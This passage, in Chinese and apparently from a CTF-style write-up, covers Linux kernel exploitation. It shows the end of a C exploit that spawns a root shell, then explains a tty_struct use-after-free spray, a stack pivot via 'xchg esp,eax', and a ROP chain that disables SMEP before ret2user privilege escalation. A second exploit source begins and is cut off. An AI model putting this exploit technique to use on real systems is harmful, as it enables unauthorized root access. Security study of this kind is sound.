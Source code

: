 ```
        now_uid = getuid();
        if (!now_uid) {
            printf("get root done\n");
            // 权限修改完毕，启动一个shell，就是root的shell了
            system("/bin/sh");
            exit(0);
        } else {
            puts("failed?");
            exit(0);
        }
    } else {
        wait(NULL);
    }
    close(fd2);
    return 0;
}
```


**利用tty_struct**

`smep` 只是不能执行用户态的代码，我们还是可以使用 用户态的数据的。我们可以通过 `rop` 来关闭 `smep`, 然后再在使用 `ret2user` 的技术进行提权。



首先我们需要控制 `rip`, 可以通过 触发 `uaf` 后，多次分配 `tty_struct` 来占坑，然后使用 `write` 修改 `tty_operations` 的指针到我们伪造的 `tty_operations` 结构体 就可以控制 `rip` 了。

要进行 `rop` 我们需要一个可控的 栈 。

这里使用 

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513574135523zry5hfcd.png?imageslim)
因为在调用 `tty_operations` 里面的函数时，最后一步是 `call rax`, 所以进入到这里时 的 `rax` 就为 `0xffffffff81007808` 这是一个 内核的内存地址，不过它的低 `32` 位,也即 `eax` 为 `0x81007808`,是一个 用户态的地址，我们是可以通过 `mmap` 拿到的，所以思路就是，首先通过 `mmap` 在 `0x81007808` 处布置好 `rop_chain` 然后 设置 `tty_operations`  里面的其中一个函数指针为 `xchg esp,eax` 的地址，然后调用之，就会进入 `rop` 了。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513574511704as7xnbvd.png?imageslim)


`xchg esp,eax`之后，可以发现 `rsp` 被劫持到我们可控的数据区了，接下来就是通过 `rop` 关闭 `semp`, 然后 `ret2user` 提权即可。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1513574411861iv40raps.png?imageslim)


**exp**

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <errno.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <string.h>
#include <pty.h>
#include <sys/mman.h>
#include <sys/ipc.h>
#include <sys/sem.h>

#define TTY_STRUCT_SIZE 0x2e0
#define SPRAY_ALLOC_TIMES 0x100

int spray_fd[0x100];

/* // 将tty_struct放入UAF空间，将第24字节的位置用伪造的tty_operations替换，如147、148行所示
tty_struct:
```